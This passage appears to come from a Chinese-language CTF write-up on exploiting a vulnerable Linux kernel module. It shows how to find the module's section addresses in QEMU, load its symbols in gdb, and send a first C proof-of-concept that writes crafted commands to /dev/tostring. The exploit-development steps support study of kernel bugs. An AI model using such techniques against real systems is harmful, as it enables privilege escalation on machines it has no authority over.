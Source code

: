 然后在`QEMU`使用以下命令确定相关`Section`的地址：

```
lsmod
grep 0 /sys/module/[module_name]/sections/.text
grep 0 /sys/module/[module_name]/sections/.data
grep 0 /sys/module/[module_name]/sections/.bss

# 0xC8824000
# 0xC88247E0
# 0xC8824A80
```

[![](./img/201454/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-03-17-142717.png)

在IDA和GDB中进行设置：

[![](./img/201454/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-03-17-145415.png)

[![](./img/201454/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-03-17-145454.png)

⚠️**：在IDA设置后会导致反编译结果出错，请谨慎设置！**

```
# code in gdb
add-symbol-file tostring.ko 0xC8824000 -s .data 0xC88247E0 -s .bss 0xC8824A80
```

首先验证我们分析的逻辑是正确的。

我们构建如下PoC发送：

```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;string.h&gt;
#include &lt;stdint.h&gt;

int main(void){
    int fd = open("/dev/tostring",2);
    write(fd,"**********H",11);
    write(fd,"**********D",11);
    write(fd,"**********S",11);
    write(fd,"**********N",11);
    write(fd,"AAAABBBB",9);
    return 0;
}

//gcc -m32 -static -o Exploit Exploit.c
```
